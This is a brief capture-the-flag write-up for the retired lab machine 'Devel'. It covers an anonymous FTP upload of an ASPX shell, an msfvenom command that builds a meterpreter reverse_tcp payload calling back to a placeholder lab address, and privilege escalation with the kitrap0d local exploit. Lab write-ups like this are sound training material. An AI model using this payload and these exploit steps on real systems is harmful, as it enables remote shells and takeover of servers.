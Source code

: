 # Devel 10.10.10.5 WriteUp
## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

Retired Easy Machine by ch4p

## Tools
1. Nmap
2. ftp
3. Metasploit

## Enumeration

1. Nmap shows port 21 and 80 is open.

## Exploitation

1. FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
2. Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

1. Used `local_exploit_suggester` module for this.
2. After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
